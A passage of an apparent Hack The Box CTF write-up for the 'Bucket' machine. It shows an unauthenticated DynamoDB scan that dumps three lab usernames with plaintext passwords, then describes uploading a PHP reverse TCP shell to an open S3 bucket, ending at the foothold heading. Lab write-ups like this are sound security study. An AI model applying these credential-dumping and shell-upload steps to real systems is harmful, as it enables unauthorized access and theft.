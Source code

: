 	```
		root@kclai:~/Documents/ctf/htb/linux/18-HTB-Bucket# aws dynamodb scan --table-name users --endpoint http://s3.bucket.htb/
	{
	    "Items": [
	        {
	            "password": {
	                "S": "Management@#1@#"
	            },
	            "username": {
	                "S": "Mgmt"
	            }
	        },
	        {
	            "password": {
	                "S": "Welcome123!"
	            },
	            "username": {
	                "S": "Cloudadm"
	            }
	        },
	        {
	            "password": {
	                "S": "n2vM-<_K_Q:.Aa2"
	            },
	            "username": {
	                "S": "Sysadm"
	            }
	        }
	    ],
	    "Count": 3,
	    "ScannedCount": 3,
	    "ConsumedCapacity": null
	}
	```

- Enumerated the site structure s3.bucket.htb
	
	It does not require any login authentication on enquiry the site, I can list the folder structure and even copy the file. Thus, a reserved TCP shell file in PHP format was prepared and upload to the environment.

	![img](./img/11.png)

***
### 3. Gaining Foothold:
